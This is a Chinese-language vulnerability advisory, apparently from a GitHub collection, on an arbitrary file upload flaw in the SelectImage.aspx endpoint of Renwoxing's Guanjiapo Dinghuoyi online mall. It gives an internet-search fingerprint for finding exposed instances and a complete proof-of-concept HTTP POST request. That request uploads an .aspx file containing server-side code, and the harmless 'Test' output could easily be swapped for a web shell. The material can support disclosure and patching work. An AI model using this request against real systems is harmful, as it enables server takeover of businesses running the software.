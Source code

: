 # 任我行 管家婆 订货易在线商城 SelectImage.aspx 任意文件上传漏洞

# 任我行 管家婆 订货易在线商城 SelectImage.aspx 任意文件上传漏洞

## 漏洞描述

任我行率先针对中小企业推出了管家婆进销存、财务一体化软件。

管家婆订货易在线商城存在 SelectImage.aspx 任意文件上传漏洞，攻击者可通过该漏洞可控制整个系统，最终导致系统处于极度不安全状态。

## 漏洞影响

管家婆 订货易在线商城

## 网络测绘

```
title="订货易"
```

## 漏洞复现

登陆页面

![image-20231115102159123](images/image-20231115102159123.png)

poc

```
POST /DialogTemplates/SelectImage.aspx?type=titleimg&size=30*100&pageindex=1&iscallback=true HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh;T2lkQm95X0c= Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
Content-Type: multipart/form-data; boundary=532c7611457d40f4ae4cd9422973416b

--532c7611457d40f4ae4cd9422973416b
Content-Disposition: form-data; name="Filedata"; filename="TEST.aspx"
Content-Type: image/jpeg

<% Response.Write("Test"); %>
--532c7611457d40f4ae4cd9422973416b--"
```

![image-20231115102227428](images/image-20231115102227428-17000150119182.png)

